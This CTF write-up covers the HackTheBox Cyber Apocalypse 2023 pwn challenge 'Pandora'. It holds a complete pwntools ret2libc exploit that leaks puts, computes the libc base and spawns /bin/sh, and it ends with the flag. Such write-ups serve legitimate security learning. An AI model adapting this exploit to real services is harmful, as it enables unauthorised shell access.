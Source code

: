 ```yaml
---
name: Pandora (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Pandora (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pandora

## Description

> You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution

Classic ret2libc attack. First, find the offset to RIP.

{% code overflow="wrap" %}
```bash
cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```
{% endcode %}

Next, leak lib-c foothold with `puts()` then redirect execution flow to the beginning of the `box` function and this time, ret2system.

{% code overflow="wrap" %}
```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4013a5
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './pb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
libc = ELF('glibc/libc.so.6')

# OFfset to RIP
offset = 56

# Start program
io = start()

# POP RDI from ropper
pop_rdi = 0x40142b
ret = 0x401016

# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        elf.symbols.box
    ]
})

# Second menu option
io.sendlineafter(b'>', b'2')

# Send the payload
io.sendlineafter(b':', payload)

io.recvlines(3)  # Receive the newlines

# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# System(/bin/sh)
info("system_addr: %#x", libc.symbols.system)
bin_sh = next(libc.search(b'/bin/sh\x00'))
info("bin_sh: %#x", bin_sh)

# Payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        bin_sh,
        ret,
        libc.symbols.system
    ]
})

# Second menu option
io.sendline(b'2')

# Send the payload
io.sendlineafter(b':', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{r3turn_2_P4nd0r4?!}`
